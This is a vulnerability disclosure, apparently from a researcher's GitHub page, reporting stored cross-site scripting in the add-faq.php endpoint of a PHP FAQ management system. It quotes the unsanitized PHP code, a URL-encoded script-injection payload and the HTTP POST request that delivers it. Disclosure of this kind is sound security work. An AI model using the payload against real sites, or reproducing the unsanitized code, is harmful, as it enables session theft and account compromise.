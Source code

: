 ## Vulnerability Details

**Credits**: 
> Reigz Macolor (https://github.com/reigz/)<br/>

**Tested On**:
> [FAQ Management System Using PHP and MySQL 1.0](https://www.sourcecodester.com/php/17175/faq-management-system-using-php-and-mysql-source-code.html) <br/>

**Affected Version**:
> FAQ Management System Using PHP and MySQL 1.0

**Affected Site Page**: 
> /faq-management-system/endpoint/add-faq.php<br/>

**Affected Code**: 
> </add-faq.php> <br/>

There is no input sanitization present when writing FAQs, making the web application vulnerable to XSS.

```php
<?php
include("../conn/conn.php");

if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    if (isset($_POST['question'], $_POST['answer'])) {
        $question = $_POST['question'];
        $answer = $_POST['answer'];


        try {
            $stmt = $conn->prepare("INSERT INTO tbl_faq (question, answer) VALUES (:question, :answer)");
            
            $stmt->bindParam(":question", $question, PDO::PARAM_STR);
            $stmt->bindParam(":answer", $answer, PDO::PARAM_STR);

            $stmt->execute();

            header("Location: http://localhost/faq-management-system/");

            exit();
        } catch (PDOException $e) {
            echo "Error:" . $e->getMessage();
        }

    } else {
        echo "
            <script>
                alert('Please fill in all fields!');
                window.location.href = 'http://localhost/faq-management-system/';
            </script>
        ";
    }
}
?>
```

**Related CWE:**
> [CWE-79: Improper Neutralization of Input During Web Page Generation ('Cross-site Scripting')](https://cwe.mitre.org/data/definitions/79.html)

## **Details:**
> Allows XSS by placing untrusted code on the parameters `question` and `answer`.

Payload used is `%3Cscript%3Ealert%28%27reigz+was+here%27%29%3C%2Fscript%3E` for both parameters.

```http 
POST /faq-management-system/endpoint/add-faq.php HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 133
Connection: close

question=%3Cscript%3Ealert%28%27reigz+was+here%27%29%3C%2Fscript%3E&answer=%3Cscript%3Ealert%28%27reigz+was+here%27%29%3C%2Fscript%3E
```

![image](https://github.com/smurf-reigz/security/assets/48426940/563ad6be-0e81-4163-9ef9-8c130df16bcf)


## **Vulnerability Impact:**
> Once the malicious script is injected, the attacker can perform a variety of malicious activities. The attacker could transfer private information, such as cookies that may include session information, from the victim's machine to the attacker. The attacker could send malicious requests to a web site on behalf of the victim, which could be especially dangerous to the site if the victim has administrator privileges to manage that site. Phishing attacks could be used to emulate trusted web sites and trick the victim into entering a password, allowing the attacker to compromise the victim's account on that web site. Finally, the script could exploit a vulnerability in the web browser itself possibly taking over the victim's machine, sometimes referred to as "drive-by hacking."
